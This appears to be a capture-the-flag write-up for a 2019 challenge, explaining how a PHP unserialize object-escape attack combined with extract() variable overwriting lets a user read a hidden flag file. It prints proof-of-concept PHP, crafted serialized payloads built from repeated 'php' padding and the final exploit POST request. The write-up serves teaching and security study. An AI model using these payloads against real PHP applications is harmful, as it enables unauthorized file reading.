 ### References

- [安洵杯2019 官方Writeup, 2019-12-12](https://xz.aliyun.com/t/6911#toc-3)

**Tag: PHP unserialize, Object escape**

1.Click the source_code, we can see the `extract` function at a glance. Contextually, may be we can cover the `$_SESSION` variable.

There’s a hint at the bottom of the code:

```php
else if($function == 'phpinfo') {
    eval('phpinfo();'); //maybe you can find something in here!
}
```

In phpinfo, we can find the `auto_append_file` is set to `d0g3_f1ag.php`. But if we access the file directly, there is nothing, which means we need to read this file.

2.Notice that there is a file operation function:

```php
else if($function == 'show_image') {
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

The variables `$userinfo` is derived from `$_SESSION`:

```php
$_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
      👇
$serialize_info = filter(serialize($_SESSION));
      👇
$userinfo = unserialize($serialize_info);
```

Because the `sha1` function, we cannot read any files.

3.Let's turn attention to another function, `serialize`. Same problem as before(2016 0ctf), it's sanitized **after** being serialized.

```php
function filter($img) {
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```

The `filter` function replacing some string with empty, it will destroy the serialized data structure.

normal serialize data are as follows:

```php
<?php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = 'phpinfo';
$_SESSION['img'] = base64_encode('guest_img.png');

echo serialize($_SESSION);

// output:
// a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"phpinfo";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

4.if we want to inject a variable, can construct the follows POC:

```php
$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}';

// output:
// a:3:{s:4:"user";s:5:"guest";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

Then use the filter function to replace the string with empty, we need include `";s:8:"function";s:59:"a` in quotes.

```python
>>> len('";s:8:"function";s:64:"a')
24
```

This means we need 24 characters to be replaced with empty, It could be:

```tex
flagflagflagflagflagflag
// or
phpphpphpphpphpphpphpphp
// ...
```

5.The final POC is:

```php
<?php
$_SESSION["user"] = 'phpphpphpphpphpphpphpphp';
$_SESSION['function'] = 'a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}';
$_SESSION['img'] = base64_encode('guest_img.png');
echo serialize($_SESSION);

// output:
// a:3:{s:4:"user";s:24:"phpphpphpphpphpphpphpphp";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

After being sanitized, the serialized data looks like:

```tex
a:3:{s:4:"user";s:24:"";s:8:"function";s:64:"a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

So we successfully injected an array member, and since the beginning is `a:3`, we add the `s:4:"test";s:4:"test";`

Finally, combined with variable coverage, exploit it:

```tex
POST /index.php?f=show_image HTTP/1.1
...

_SESSION[user]=phpphpphpphpphpphpphpphp&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:4:"test";s:4:"test";}
```

we can get:

```php
<?php
$flag = 'flag in /d0g3_fllllllag';
?>
```

then, just read the flag:

![](https://i.imgur.com/2Nq2dOO.png)


